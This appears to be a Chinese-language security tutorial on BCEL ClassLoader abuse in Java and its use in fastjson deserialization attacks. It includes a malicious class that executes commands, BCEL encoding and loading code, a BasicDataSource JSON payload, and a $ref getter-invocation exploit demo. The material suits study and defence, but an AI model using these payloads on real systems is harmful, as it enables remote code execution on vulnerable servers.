



# 0x01 What Is BCEL

BCEL(Byte Code Engineering Library)的全名是Apache Commons BCEL，属于Apache Commons项目下的一个子项目，BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。相较Commons Collections，BCEL被包含在原生JDK中，更容易被利用。

> BCEL Classloader在 JDK < 8u251之前是在rt.jar里面。
>
> 在Tomcat中也会存在相关的依赖
>
> tomcat7：org.apache.tomcat.dbcp.dbcp.BasicDataSource
>
> tomcat8+：org.apache.tomcat.dbcp.dbcp2.BasicDataSource
>

`com.sun.org.apache.bcel.internal.util.ClassLoader`重写了Java内置的`ClassLoader#loadClass()`方法，会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode。可以理解为是传统字节码的HEX编码，再将反斜线替换成`$`。默认情况下外层还会加一层GZip压缩。

# 0x02 Best Practice

编写恶意类

```java
public class Evil {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {}
    }
}
```

测试：

```java
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class Test {
    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String encode = Utility.encode(javaClass.getBytes(), true);
        System.out.println(encode);
        // Class.forName("$$BCEL$$" + encode, true, new ClassLoader());
        new ClassLoader().loadClass("$$BCEL$$" + encode).newInstance();
    }
}
```

* `Repository`用于将一个`Java Class`先转换成原生字节码（也可以用javac命令）

* `Utility`用于将原生的字节码转换成BCEL格式的字节码

# 0x03 BCEL + fastjson

fastjson网传的三条利用链如下：

- `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`
- `com.sun.rowset.JdbcRowSetImpl`
- `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

1. 常规的Java字节码的执行，但是需要开启`Feature.SupportNonPublicField`，较鸡肋
2. 利用JNDI注入，但需要服务器出网
3. 不用出网也不用开启`Feature.SupportNonPublicField`

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>8.5.45</version>
</dependency>
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.23</version>
</dependency>
```

调用链`getConnection()->createDataSource()->createConnectionFactory()->createDriver()`



`Class.forName`第二个参数`initial`为true时，类加载后将会直接执行`static{}`块中的代码。

`driverClassLoader`和`driverClassName`都可以通过fastjson控制

> {    
>
> ​	{        
>
> ​		"aaa": {                
>
> ​			"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",                
>
> ​			"driverClassLoader": {                    
>
> ​				"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"                
>
> ​			},                
>
> ​			"driverClassName": "$$BCEL$$$l$8b$I$A$..."        
>
> ​		}    
>
> ​	}: "bbb" 
>
> }



实际上面的getConnection不满足fastjson对自动调用getter的要求

> 满足条件的getter
>
> * 函数名长度大于等于4
> * 非静态方法
> * 以get开头且第4个字母为大写
> * 无参数
> * 返回值类型继承自Collection或Map或AtomicBoolean或AtomicInteger

在`{"@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource"……}` 这一整段外面再套一层`{}`，这样的话会把这个整体当做一个JSONObject，会把这个当做key，值为bbb

将这个 JSONObject 放在 JSON Key 的位置上，在 JSON 反序列化的时候，FastJson 会对 JSON Key 自动调用 toString() 方法（因为key一定要是String类型）

而且JSONObject是Map的子类，当调用`toString`的时候，会依次调用该类的getter方法获取值。所以会调用到`getConnection`方法



> 当fastjson>=1.2.36的时候，可以使用`$ref`方式调用getter
>
> ref是fastjson特有的JSONPath语法，用来引用之前出现的对象
>
> ```java
> public class test {
>     private String cmd;
> 
>     public void setCmd(String cmd) {
>         System.out.println("seter call");
>         this.cmd = cmd;
>     }
> 
>     public String getCmd() throws IOException {
>         System.out.println("geter call");
>         Runtime.getRuntime().exec(cmd);
>         return cmd;
>     }
> }
> ```
>
> ```java
> public class ref_fastjson {
>     public static void main(String[] args) {
>         ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
>         String payload = "[{\"@type\":\"com.demo.fastjson.test\",\"cmd\":\"calc\"},{\"$ref\":\"$[0].cmd\"}]";
>         JSON.parse(payload);
>     }
> }
> ```

